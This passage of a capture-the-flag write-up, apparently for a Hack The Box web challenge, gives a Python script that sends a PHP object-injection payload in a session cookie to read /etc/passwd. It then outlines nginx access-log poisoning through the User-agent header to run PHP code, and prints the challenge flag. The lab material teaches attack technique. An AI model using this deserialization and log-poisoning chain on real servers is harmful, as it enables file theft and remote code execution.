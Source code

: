 ```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag's name is random, so we need to find an alternative way to read it.

<img width="472" alt="image" src="/images/md/23c0c811-0290-4d90-bd9d-96b18d9c09ca.png">

### PHP code Injection in log file

We can find the path of `/etc/nginx/nginx.conf` in Dockerfile.

<img width="317" alt="image" src="/images/md/f401a175-f86d-4ed6-9143-77d4b12e1817.png">

Reading this file using the deserialization payload it reveals the path to access log `/var/log/nginx/access.log`.

<img width="320" alt="image" src="/images/md/76d581a6-12c0-4665-855b-3c5f1bb44d3f.png">

By analyzing the access log, we can see that the User-agent is recorded in the log file.

<img width="571" alt="image" src="/images/md/d07a5788-7e8e-4667-b447-f4b5d8036053.png">

We can attempt to insert PHP code into this log file and then read the file to determine whether the PHP code is executed.

<img width="185" alt="image" src="/images/md/a4b748d2-a890-4c19-bd1c-166ef783e385.png">

<img width="491" alt="image" src="/images/md/d598a5ab-befc-4657-8b69-fde9f91c5230.png">

and this works. Now we can use this PHP code injection to obtain the flag.

<img width="217" alt="image" src="/images/md/a0a677ec-ee03-460e-84c9-932dc009992f.png">

<img width="361" alt="image" src="/images/md/e25196d7-00c7-4300-b002-11adf36413ff.png">

Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


Happy Hacking